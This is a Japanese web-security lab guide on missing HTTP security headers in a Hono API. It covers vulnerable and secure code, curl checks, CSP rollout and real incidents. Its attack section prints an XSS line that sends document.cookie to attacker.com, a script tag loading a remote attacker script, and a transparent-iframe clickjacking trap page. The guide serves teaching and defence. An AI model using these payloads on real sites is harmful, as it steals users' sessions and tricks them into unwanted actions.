

# Security Headers — セキュリティレスポンスヘッダの未設定・設定ミス

> ブラウザに組み込まれた防御機能を有効にするレスポンスヘッダが設定されていないため、XSSやクリックジャッキング等の攻撃に対する多層防御が機能しない問題です。

---

## 対象ラボ

| 項目 | 内容 |
|------|------|
| **概要** | サーバーがセキュリティレスポンスヘッダ（CSP, HSTS, X-Content-Type-Options 等）を返していないため、ブラウザの保護機能が無効のままとなり、XSS・クリックジャッキング・MIMEスニッフィング等の攻撃に対する多層防御が機能しない |
| **攻撃例** | `curl -I` でレスポンスヘッダを確認し、CSP 未設定を利用してインラインスクリプトを実行する / X-Frame-Options 未設定を利用してクリックジャッキングを仕掛ける |
| **技術スタック** | Hono API |
| **難易度** | ★☆☆ 入門 |
| **前提知識** | HTTPレスポンスヘッダーの基本構造、XSSの概念（[XSS](../step02-injection/xss.md) を先に学ぶことを推奨）、[HTTPヘッダーからの情報漏洩](../step01-recon/header-leakage.md) |

---

## この脆弱性を理解するための前提

### ブラウザのデフォルト動作とセキュリティヘッダの仕組み

ブラウザはデフォルトでは最小限の制約しかかけない設計になっている。歴史的な互換性を優先するため、サーバーから明示的な指示がなければ、ブラウザは「許容的」に振る舞う。例えば、`Content-Type` が正しくなくてもファイルの中身を推測して実行する（MIMEスニッフィング）、外部サイトの iframe 内に自由にページを表示する、インラインスクリプトを無条件で実行する、といった動作がデフォルトである。

セキュリティヘッダは、サーバーからブラウザに対して「この挙動を制限してください」と明示的に指示するためのHTTPレスポンスヘッダである。

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'        ← リソース読み込み元を制限
Strict-Transport-Security: max-age=31536000        ← HTTPS を強制
X-Content-Type-Options: nosniff                    ← MIMEスニッフィングを禁止
X-Frame-Options: DENY                             ← iframe 埋め込みを禁止
Referrer-Policy: strict-origin-when-cross-origin   ← リファラ情報の送信を制限
Permissions-Policy: camera=(), microphone=()       ← ブラウザAPIの使用を制限
```

これらのヘッダーが存在することで、ブラウザは追加のセキュリティ機能を有効にする。逆に言えば、**これらのヘッダーがなければブラウザの保護機能は眠ったままになる**。

### 主要なセキュリティヘッダ一覧

| ヘッダ | 役割 | 未設定時のリスク |
|--------|------|------------------|
| `Content-Security-Policy` (CSP) | スクリプト・スタイル・画像等のリソース読み込み元を制限する | インラインスクリプト実行、外部スクリプト注入（XSS）が容易になる |
| `Strict-Transport-Security` (HSTS) | ブラウザに HTTPS の使用を強制する | HTTPダウングレード攻撃、中間者攻撃（MITM）が可能になる |
| `X-Content-Type-Options` | MIMEタイプのスニッフィングを禁止する | テキストファイルがスクリプトとして実行される（MIMEスニッフィング攻撃） |
| `X-Frame-Options` | ページの iframe 埋め込みを制限する | 攻撃者がページを透明 iframe に埋め込んでクリックジャッキングを行える |
| `Referrer-Policy` | リファラ情報の送信範囲を制御する | URL に含まれるトークンやセッション情報が外部サイトに漏洩する |
| `Permissions-Policy` | カメラ・マイク等のブラウザAPIへのアクセスを制限する | XSS等と組み合わせてカメラやマイクが無断で有効化される |

### どこに脆弱性が生まれるのか

セキュリティヘッダーは**サーバーが明示的に設定しなければ付与されない**。多くのWebフレームワークはデフォルトでこれらのヘッダーを付与しないため、開発者が意識して設定しない限り、ブラウザの保護機能は無効のままになる。

```typescript
// ⚠️ セキュリティヘッダーが一切設定されていない
// ブラウザの防御機能が何も有効にならず、多層防御が完全に欠如している
app.get("/page", (c) => {
  return c.html(`
    <html>
      <head><title>ダッシュボード</title></head>
      <body>
        <h1>ようこそ</h1>
        <p>ユーザー: ${username}</p>
      </body>
    </html>
  `);
  // レスポンスヘッダー:
  // Content-Type: text/html
  // ← CSP がない → インラインスクリプト実行可能、外部スクリプト注入可能
  // ← X-Frame-Options がない → クリックジャッキング可能
  // ← X-Content-Type-Options がない → MIMEスニッフィング可能
  // ← HSTS がない → HTTPダウングレード可能
  // ← Referrer-Policy がない → URLのトークン等が外部に漏洩
  // ← Permissions-Policy がない → カメラ・マイク等の無断使用が可能
});
```

この状態では、XSSの脆弱性が仮にコード上で存在しなくても、将来的に脆弱性が発生した場合の「安全ネット」がない。セキュリティヘッダーは多層防御（Defense in Depth）の重要な一層であり、単独で完全な防御にはならないが、他の脆弱性と組み合わさったときに被害を大幅に軽減する。

---

## 攻撃の仕組み


### 攻撃のシナリオ

1. **攻撃者** がターゲットサイトのレスポンスヘッダーを偵察する

   `curl -I` やブラウザの DevTools を使い、セキュリティヘッダーの有無を確認する。特別なツールは不要で、1回のHTTPリクエストで全てのヘッダーの設定状況が判明する。

   ```bash
   $ curl -I http://target:3000/api/labs/security-headers/vulnerable/page
   HTTP/1.1 200 OK
   Content-Type: text/html; charset=utf-8
   # ← セキュリティヘッダーが一切返されていない
   ```

2. **攻撃者** が欠如しているヘッダーに応じた攻撃経路を特定する

   各ヘッダーの欠如は、それぞれ特定の攻撃を許容する。攻撃者はどのヘッダーが欠けているかを確認し、最も効果的な攻撃手法を選択する。

   | 欠如しているヘッダー | 可能になる攻撃 |
   |----------------------|----------------|
   | `Content-Security-Policy` | XSSが成功した場合、インラインスクリプトの実行や外部スクリプトの読み込みが一切制限されない |
   | `X-Frame-Options` | ターゲットページを iframe に埋め込んだ罠ページでクリックジャッキングが可能 |
   | `X-Content-Type-Options` | テキストファイルやJSONをスクリプトとして解釈させるMIMEスニッフィング攻撃が可能 |
   | `Strict-Transport-Security` | HTTPダウングレード攻撃で通信を平文に戻し、中間者攻撃が可能 |
   | `Referrer-Policy` | URLに含まれるセッショントークンやAPIキーが外部サイトのリファラとして漏洩 |

3. **攻撃者** が特定した攻撃経路を利用して実際に攻撃を実行する

   例えば CSP が未設定の場合、XSS の脆弱性と組み合わせることで攻撃の威力が大幅に増す。CSP があればブロックされるはずの外部スクリプトの読み込みやインラインスクリプトの実行が、何の制約もなく成功する。

   ```html
   <!-- CSP が未設定の場合、XSS経由で注入されたスクリプトが制限なく実行される -->
   <script>
     // ⚠️ CSP があれば 'unsafe-inline' を許可しない限りブロックされるインラインスクリプト
     fetch('https://attacker.com/steal?cookie=' + document.cookie);
   </script>

   <!-- ⚠️ CSP があれば外部ドメインからのスクリプト読み込みがブロックされる -->
   <script src="https://attacker.com/malicious.js"></script>
   ```

   X-Frame-Options が未設定の場合:

   ```html
   <!-- 攻撃者の罠ページ — ターゲットを透明 iframe で重ねる -->
   <iframe src="http://target:3000/settings/delete-account"
           style="opacity: 0.0001; position: absolute; z-index: 10;">
   </iframe>
   <button style="position: absolute; top: 200px; left: 100px;">
     🎁 景品を受け取る
   </button>
   ```

### なぜ成功するのか

| 条件 | 説明 |
|------|------|
| セキュリティヘッダーの未設定 | サーバーがブラウザの保護機能を有効にするヘッダーを返していないため、防御層が完全に欠如している |
| ブラウザのデフォルト動作が許容的 | セキュリティヘッダーがなければ、ブラウザは歴史的互換性を優先し、インラインスクリプト実行・iframe 埋め込み・MIMEスニッフィング等を許可する |
| 偵察が極めて容易 | `curl -I` 一発でセキュリティヘッダーの有無が判明し、攻撃者は即座に攻撃計画を立てられる |
| 他の脆弱性との組み合わせ | セキュリティヘッダーは他の脆弱性の被害を軽減する「安全ネット」であり、この安全ネットがないと XSS 等の被害が最大化する |

### 被害の範囲

- **機密性**: CSP 未設定の場合、XSS を通じて Cookie、セッション情報、ページ上の個人情報が攻撃者のサーバーに送信される。Referrer-Policy 未設定の場合、URL に含まれるトークン等が外部サイトに漏洩する
- **完全性**: X-Frame-Options 未設定の場合、クリックジャッキングにより被害者が意図しない操作（アカウント削除、送金、設定変更等）を実行させられる。CSP 未設定の場合、XSS によるページ内容の改ざんが制限なく行える
- **可用性**: Permissions-Policy 未設定の場合、XSS と組み合わせてブラウザのカメラ・マイクが無断で有効化される。HSTS 未設定の場合、HTTPダウングレード攻撃により通信が中間者に傍受・改ざんされ、サービスが正常に利用できなくなる

---

## 対策



### 根本原因

サーバーがブラウザのセキュリティ機能を有効にするための指示（ヘッダー）を送っていないこと。ブラウザは「明示的な指示がなければ保護しない」設計であるため、サーバー側から積極的にヘッダーを付与しなければ、多層防御の重要な一層が完全に欠落する。

### 安全な実装

ミドルウェアで全レスポンスにセキュリティヘッダーを一括付与する。Hono には `secureHeaders` ミドルウェアが組み込まれているため、これを活用するのが最も簡潔かつ安全な方法である。

```typescript
import { Hono } from "hono";
import { secureHeaders } from "hono/secure-headers";

const app = new Hono();

// ✅ Hono の secureHeaders ミドルウェアで主要なセキュリティヘッダーを一括設定
// 1つのミドルウェア呼び出しで複数のヘッダーが自動的に付与される
app.use(
  "*",
  secureHeaders({
    // ✅ CSP: リソース読み込み元を自オリジンに制限
    // インラインスクリプトや外部ドメインからのスクリプト読み込みをブロック
    contentSecurityPolicy: {
      defaultSrc: ["'self'"],
      scriptSrc: ["'self'"],
      styleSrc: ["'self'", "'unsafe-inline'"],
      imgSrc: ["'self'", "data:"],
      connectSrc: ["'self'"],
      frameSrc: ["'none'"],
      objectSrc: ["'none'"],
    },
    // ✅ HSTS: ブラウザに HTTPS の使用を強制（1年間）
    strictTransportSecurity: "max-age=31536000; includeSubDomains",
    // ✅ MIMEスニッフィング防止
    xContentTypeOptions: "nosniff",
    // ✅ iframe 埋め込み禁止（クリックジャッキング対策）
    xFrameOptions: "DENY",
    // ✅ リファラ情報の送信を制限
    referrerPolicy: "strict-origin-when-cross-origin",
    // ✅ カメラ・マイク等の無断使用を防止
    permissionsPolicy: {
      camera: [],
      microphone: [],
      geolocation: [],
    },
  })
);
```

**なぜ安全か**: 各セキュリティヘッダーがブラウザの特定の保護機能を有効にする。CSP はスクリプトの読み込み元を制限するため、XSS が発生しても外部スクリプトの注入やインラインスクリプトの実行がブロックされる。`X-Frame-Options: DENY` は iframe 埋め込みを禁止するため、クリックジャッキングが成立しない。`X-Content-Type-Options: nosniff` は MIME タイプの推測を禁止するため、テキストファイルがスクリプトとして実行されることを防ぐ。これらのヘッダーが連携して多層防御を形成する。

ライブラリを使わず手動で設定する場合は、以下のようにミドルウェアを記述する:

```typescript
// ✅ 手動でセキュリティヘッダーを設定するミドルウェア
// secureHeaders が使えない場合や、細かい制御が必要な場合に使用
app.use("*", async (c, next) => {
  await next();

  // CSP: リソース読み込み元を制限
  c.header(
    "Content-Security-Policy",
    "default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; connect-src 'self'; frame-src 'none'; object-src 'none'"
  );

  // HSTS: HTTPS を強制
  c.header(
    "Strict-Transport-Security",
    "max-age=31536000; includeSubDomains"
  );

  // MIMEスニッフィング防止
  c.header("X-Content-Type-Options", "nosniff");

  // iframe 埋め込み禁止
  c.header("X-Frame-Options", "DENY");

  // リファラ情報の制限
  c.header("Referrer-Policy", "strict-origin-when-cross-origin");

  // ブラウザAPI制限
  c.header(
    "Permissions-Policy",
    "camera=(), microphone=(), geolocation=()"
  );
});
```

#### 脆弱 vs 安全: コード比較

```diff
+ import { secureHeaders } from "hono/secure-headers";

  const app = new Hono();

- // ⚠️ セキュリティヘッダーなし — ブラウザの保護機能が全て無効
- app.get("/page", (c) => {
-   return c.html("<html>...</html>");
- });

+ // ✅ セキュリティヘッダーを一括設定
+ app.use("*", secureHeaders({
+   contentSecurityPolicy: {
+     defaultSrc: ["'self'"],
+     scriptSrc: ["'self'"],
+   },
+   strictTransportSecurity: "max-age=31536000; includeSubDomains",
+   xContentTypeOptions: "nosniff",
+   xFrameOptions: "DENY",
+   referrerPolicy: "strict-origin-when-cross-origin",
+   permissionsPolicy: {
+     camera: [],
+     microphone: [],
+     geolocation: [],
+   },
+ }));
+
+ app.get("/page", (c) => {
+   return c.html("<html>...</html>");
+ });
```

脆弱版ではセキュリティヘッダーが一切設定されていないため、ブラウザの防御機能が全て無効のままである。安全版では `secureHeaders` ミドルウェアにより全レスポンスに6種類のセキュリティヘッダーが自動付与され、ブラウザの保護機能が多層的に有効化される。

### CSP の段階的導入: report-only から enforce へ

CSP は強力だが、既存のアプリケーションにいきなり厳格な CSP を適用すると、正当なスクリプトやスタイルまでブロックしてしまい、サイトが正常に動作しなくなるリスクがある。そのため、段階的な導入が推奨される。

```typescript
// ✅ Step 1: Content-Security-Policy-Report-Only で監視モードから始める
// このヘッダーはブロックせず、違反をレポートするだけ
// サイトの動作に影響を与えずに、どのリソースが違反するか把握できる
app.use("*", async (c, next) => {
  await next();
  c.header(
    "Content-Security-Policy-Report-Only",
    "default-src 'self'; script-src 'self'; report-uri /api/csp-report"
  );
});

// ✅ Step 2: レポートを収集して違反を分析する
app.post("/api/csp-report", async (c) => {
  const report = await c.req.json();
  console.log("[CSP Report]", JSON.stringify(report));
  return c.json({ received: true });
});

// ✅ Step 3: 問題がないことを確認したら enforce に切り替える
// Content-Security-Policy-Report-Only → Content-Security-Policy に変更
app.use("*", async (c, next) => {
  await next();
  c.header(
    "Content-Security-Policy",
    "default-src 'self'; script-src 'self'; report-uri /api/csp-report"
  );
});
```

### その他の防御策

| 対策 | 種類 | 説明 |
|------|------|------|
| セキュリティヘッダーの一括設定 | 根本対策 | `secureHeaders` ミドルウェア等で CSP, HSTS, X-Content-Type-Options, X-Frame-Options, Referrer-Policy, Permissions-Policy を全レスポンスに付与する |
| Helmet 等のライブラリ活用 | 根本対策 | Express/Hono の Helmet や `secureHeaders` ミドルウェアを使い、セキュリティヘッダーの設定漏れを防ぐ。手動設定ではヘッダーの追加忘れが発生しやすい |
| リバースプロキシでのヘッダー付与 | 多層防御 | Nginx / Cloudflare レベルでもセキュリティヘッダーを付与し、アプリケーションが設定を忘れても保護される |
| CSP Report-Only による監視 | 検知 | 本番適用前に `Content-Security-Policy-Report-Only` でポリシー違反を監視し、正当なリソースをブロックしないことを確認する |
| セキュリティヘッダー監査 | 検知 | [securityheaders.com](https://securityheaders.com/) 等の外部サービスで定期的にヘッダー設定を監査する |

---

## ハンズオン手順

### Step 1: 脆弱バージョンで攻撃を体験

**ゴール**: セキュリティヘッダーが欠如していることを確認し、それがどんな攻撃を許容するか理解する

1. 開発サーバーを起動する

   ```bash
   cd backend && pnpm dev
   ```

2. 脆弱なエンドポイントのレスポンスヘッダーを `curl -I` で確認する

   ```bash
   # レスポンスヘッダーだけを取得する
   curl -I http://localhost:3000/api/labs/security-headers/vulnerable/page
   ```

3. レスポンスヘッダーを分析する

   - `Content-Security-Policy` が存在するか
   - `Strict-Transport-Security` が存在するか
   - `X-Content-Type-Options` が存在するか
   - `X-Frame-Options` が存在するか
   - `Referrer-Policy` が存在するか
   - `Permissions-Policy` が存在するか
   - **この結果が意味すること**: これらのヘッダーが全て欠如していると、ブラウザの保護機能は何も有効になっておらず、XSS・クリックジャッキング・MIMEスニッフィング等の攻撃に対する多層防御がゼロの状態

4. ブラウザの DevTools でも確認する

   ```
   http://localhost:5173/labs/security-headers
   ```

   - DevTools の **Network** タブでレスポンスを選択し、**Headers** タブを確認する
   - **Console** タブに CSP 違反の警告が表示されないこと（CSP 自体がないため警告も出ない）を確認する

### Step 2: 安全バージョンで防御を確認

**ゴール**: セキュリティヘッダーが適切に設定されており、ブラウザの保護機能が有効化されていることを確認する

1. 安全なエンドポイントのレスポンスヘッダーを確認する

   ```bash
   # 安全なバージョンのレスポンスヘッダーを取得
   curl -I http://localhost:3000/api/labs/security-headers/secure/page
   ```

2. 脆弱版と安全版のヘッダーを並べて比較する

   ```bash
   # 脆弱版と安全版を並べて比較
   echo "=== 脆弱版 ==="
   curl -sI http://localhost:3000/api/labs/security-headers/vulnerable/page

   echo "=== 安全版 ==="
   curl -sI http://localhost:3000/api/labs/security-headers/secure/page
   ```

   - 安全版では CSP, HSTS, X-Content-Type-Options, X-Frame-Options, Referrer-Policy, Permissions-Policy が返されることを確認する
   - 各ヘッダーの値がどのような制限をブラウザに指示しているか読み解く

3. ブラウザの DevTools で CSP の効果を確認する

   - 安全版のページで DevTools の **Console** タブを開く
   - CSP 違反のレポートが表示される場合、どのリソースが制限されているかを確認する
   - インラインスクリプトを DevTools Console から実行しようとして、CSP によりブロックされることを確認する

4. コードの差分を確認する

   - `backend/src/labs/step07-design/security-headers.ts` の脆弱版と安全版を比較
   - **セキュリティヘッダーの追加が多層防御をどう形成しているか** に注目する

### 確認ポイント

以下を自分の言葉で説明できれば、このラボは完了です:

- [ ] セキュリティヘッダーがないとブラウザの保護機能が働かないのはなぜか（ブラウザの「明示的な指示がなければ保護しない」設計）
- [ ] CSP が XSS の被害をどのように軽減するか（インラインスクリプトのブロック、外部スクリプト読み込みの制限）
- [ ] X-Frame-Options と CSP frame-ancestors の違い、それぞれの利点と制限
- [ ] CSP をいきなり enforce で導入するのが危険な理由と、report-only による段階的導入の手順
- [ ] セキュリティヘッダーは「多層防御」の一部であり、これだけで全ての攻撃を防げるわけではない理由

---

## 実装メモ

| 項目 | パス |
|------|------|
| 脆弱エンドポイント | `/api/labs/security-headers/vulnerable/page` |
| 安全エンドポイント | `/api/labs/security-headers/secure/page` |
| バックエンド | `backend/src/labs/step07-design/security-headers.ts` |
| フロントエンド | `frontend/src/features/step07-design/pages/SecurityHeaders.tsx` |

- 脆弱版: セキュリティヘッダーなしでHTMLページを返す。ブラウザのデフォルト動作に完全に依存
- 安全版: `secureHeaders` ミドルウェアまたは手動ミドルウェアで CSP, HSTS, X-Content-Type-Options, X-Frame-Options, Referrer-Policy, Permissions-Policy を付与
- DevTools の Network タブでレスポンスヘッダーを比較することで、ヘッダーの有無による違いを視覚的に確認できる
- CSP の report-only モードを使ったデモも含め、段階的導入の体験も可能

---

## 現実世界での事例

| 年 | インシデント | 概要 |
|----|-------------|------|
| 2016 | GitHub CSP 導入 | GitHub は CSP を段階的に導入し、report-only モードで数ヶ月間違反レポートを収集・分析した後に enforce に切り替えた。この段階的アプローチにより、正当なスクリプトをブロックすることなく XSS の多層防御を実現した |
| 2018 | British Airways データ漏洩 | 攻撃者が Web ページに悪意のあるスクリプトを注入し、顧客の支払い情報を窃取した。CSP が適切に設定されていれば、外部ドメインへのデータ送信がブロックされ被害を軽減できた可能性がある。約38万件のカード情報が流出し、GDPR に基づき約2,000万ポンドの罰金が科された |
| 継続的 | securityheaders.com によるスキャン | Scott Helme が運営する securityheaders.com では、任意のサイトのセキュリティヘッダー設定を無料でスキャン・評価できる。Alexa Top 100万サイトの調査では、CSP を設定しているサイトは全体の約10%に過ぎないことが報告されている |

---

## 関連ラボ

| ラボ | 関連性 |
|------|--------|
| [XSS](../step02-injection/xss.md) | CSP はXSS攻撃の被害を軽減する多層防御。XSS の脆弱性がコード上に存在しても、CSP が適切に設定されていればインラインスクリプトの実行や外部スクリプトの読み込みがブロックされる |
| [クリックジャッキング](clickjacking.md) | `X-Frame-Options` と `CSP frame-ancestors` の欠如がクリックジャッキングの直接的な原因。本ラボのセキュリティヘッダー設定がクリックジャッキング防御の根幹となる |
| [HTTPヘッダーからの情報漏洩](../step01-recon/header-leakage.md) | 不要なヘッダーの「除去」（header-leakage）と、セキュリティヘッダーの「付与」（本ラボ）はセットで行うべき。両方合わせてヘッダーの安全な管理になる |
| [セキュリティヘッダーの欠如](../step01-recon/header-exposure.md) | 偵察フェーズでセキュリティヘッダーの欠如を発見する方法を扱う。本ラボは欠如が見つかった場合の影響と対策を深く掘り下げる |

---

## 参考資料

- [OWASP - Secure Headers Project](https://owasp.org/www-project-secure-headers/)
- [OWASP - Content Security Policy Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html)
- [CWE-693: Protection Mechanism Failure](https://cwe.mitre.org/data/definitions/693.html)
- [MDN - Content-Security-Policy](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Content-Security-Policy)
- [MDN - Strict-Transport-Security](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Strict-Transport-Security)
- [MDN - X-Content-Type-Options](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/X-Content-Type-Options)
- [MDN - X-Frame-Options](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/X-Frame-Options)
- [MDN - Referrer-Policy](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Referrer-Policy)
- [MDN - Permissions-Policy](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Permissions-Policy)
